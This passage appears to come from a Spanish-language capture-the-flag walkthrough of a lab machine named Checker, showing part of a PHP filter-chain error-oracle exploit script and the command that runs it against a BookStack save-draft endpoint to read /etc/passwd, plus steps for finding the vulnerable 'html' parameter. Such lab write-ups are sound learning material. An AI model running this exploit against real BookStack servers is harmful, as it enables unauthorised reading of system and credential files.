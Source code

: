 ```python
            exit(1)
        return None
 
    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
 
    def error_oracle(self, s):
        requ = self.req_with_response(s)
 
        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text
 
        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)
 
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

Después ejecuta el exploit de la siguiente manera
![paste](./images/12.jpeg)

```bash
python3 filters_chain_oracle_exploit.py --target  "http://checker.htb/ajax/page/20/save-draft" --file /etc/passwd --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session="}'
```

Y cambia conforme a tus datos de esta manera 

--target  
Para obtener la url tendrás que crear un nuevo libro en BookStack y dentro de el un nuevo archivo y en este archivo es donde esta la vulnerabilidad.
Siempre que escribas en el archivo este mandara la petición de guardar cambios , dentro de esta petición existe un parámetro llamado html que es vulnerable 

![paste](./images/14.jpeg)